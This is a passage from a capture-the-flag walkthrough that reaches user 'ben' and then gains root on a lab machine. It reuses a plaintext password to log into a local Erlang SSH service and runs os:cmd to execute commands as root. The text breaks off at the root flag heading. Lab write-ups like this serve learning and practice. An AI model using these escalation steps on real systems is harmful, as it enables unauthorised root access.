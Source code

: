 ```bash
su ben
#HouseH0ldings998
```
- user flag located in `/home/ben`
```bash
cat /home/ben/user.txt
```
---
# Privilege Escalation to root

## Local enumeration
After gaining user access as `ben`, checked for sudo privileges:
```bash
id && sudo -l

[sudo] password for ben:  
Sorry, user ben may not run sudo on soulmate.
```
So, `ben` had no sudo rights.
### Critical Discovery — Erlang SSH Service

While reviewing LinPEAS output, I noticed an interesting service:  
An **Erlang SSH service running on port 2222**.

Since I already had valid credentials for `ben`, I attempted an SSH connection to localhost on that port:
```bash
ben@soulmate:~$ ssh ben@localhost -p 2222  
#Password: HouseH0ldings998
```
This connected directly into an Erlang shell:
```bash
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)  
(ssh_runner@soulmate)1>
```
## Privilege Escalation vector
### Erlang Command Execution
After researching Erlang security, I learned that the `os:cmd/1`function allows command execution from the Erlang shell.

**Reference**:  
[https://vuln.be/post/os-command-and-code-execution-in-erlang-and-elixir/](https://vuln.be/post/os-command-and-code-execution-in-erlang-and-elixir/)

Verified privilege escalation by running:
```bash
(ssh_runner@soulmate)1> os:cmd("id"). 
 
"uid=0(root) gid=0(root) groups=0(root)\n"
```
🔑 **Critical Finding:**  
The Erlang shell is running with **root privileges**.
### Root Flag Capture
